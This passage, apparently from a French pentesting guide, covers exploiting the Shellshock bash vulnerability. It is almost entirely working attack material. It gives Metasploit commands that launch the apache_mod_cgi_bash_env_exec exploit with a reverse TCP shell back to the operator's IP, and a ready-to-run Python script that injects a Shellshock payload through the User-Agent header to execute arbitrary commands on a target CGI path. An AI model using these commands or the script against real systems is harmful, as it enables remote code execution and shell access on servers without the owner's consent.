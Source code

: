 
## Outils automatisés

### Exploitation avec Metasploit
```bash
msfconsole
use auxiliary/scanner/http/apache_mod_cgi_bash_env
set RHOSTS <target>
set TARGETURI /cgi-bin/test.cgi
run

# Pour un shell
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <target>
set TARGETURI /cgi-bin/vulnerable.cgi
set payload linux/x86/shell/reverse_tcp
set LHOST <your_ip>
set LPORT 4444
exploit
```

### Scripts personnalisés

#### Script Python basique
```python
#!/usr/bin/env python3
import requests
import sys

def exploit_shellshock(target, cgi_path, command):
    url = f"http://{target}{cgi_path}"
    payload = f"() {{ :; }}; echo; echo; /bin/bash -c '{command}'"
    headers = {'User-Agent': payload}
    
    try:
        response = requests.get(url, headers=headers, timeout=10)
        return response.text
    except:
        return "Erreur de connexion"

# Utilisation
if len(sys.argv) != 4:
    print("Usage: python3 shellshock.py <target> <cgi_path> <command>")
    sys.exit(1)

result = exploit_shellshock(sys.argv[1], sys.argv[2], sys.argv[3])
print(result)
```

---

